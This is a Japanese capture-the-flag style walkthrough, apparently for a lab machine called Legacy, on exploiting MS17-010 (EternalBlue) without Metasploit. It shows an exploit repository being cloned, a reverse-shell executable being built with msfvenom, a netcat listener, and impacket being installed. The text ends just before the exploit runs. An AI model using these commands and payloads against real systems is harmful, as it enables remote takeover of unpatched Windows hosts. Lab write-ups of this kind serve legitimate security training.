 # 侵入
metasploitを利用してMS08-067,MS17-010に関するモジュールを使うととても簡単に管理者権限が手に入ります。
なので、今回はmetasploitを使わずにMS17-010であるEternalBlueの脆弱性を利用して侵入しましょう.
まずはgitを使ってMS17-010のエクスプロイトをクローンします。

```
git clone https://github.com/helviojunior/MS17-010.git
```

次にmsfvenomを使用してLegacyへ送るリバースシェルをするためのマルウェアを作成します。

```
kali@kali:~/MS17-010$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=8888 -f exe > exploit.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

最後にリバースシェルを受信するためにnetcatを用いて待ち受けておきます。

```
kali@kali:~$ nc -lvp 8888
listening on [any] 8888 ...
```

これで準備が整って、侵入を開始するわけですが、ここで一つ問題が起こりました。
この中のsend_and_execute.pyを使用して侵入を開始しようとしますが、impacketモジュールがインストールされていないと警告が出ます。

```
kali@kali:~/MS17-010$ python send_and_execute.py 10.10.10.4 exploit.exe 
Traceback (most recent call last):
  File "send_and_execute.py", line 2, in <module>
    from impacket import smb, smbconnection
ImportError: No module named impacket
```

なので、impacketもダウンロードしてきてpipでインストールしましょう。
僕の使用しているkaliではpipも入っていなかったので、pipもインストールしておきます。

```
$ sudo apt install python-pip
```

```
$ wget https://github.com/SecureAuthCorp/impacket/releases/download/impacket_0_9_21/impacket-0.9.21.tar.gz
$ tar -zxvf impacket-0.9.21.tar.gz
$ cd impacket-0.9.21
$ pip install .
```

これで準備は完了です。
send_and_execute.pyを実行しましょう。
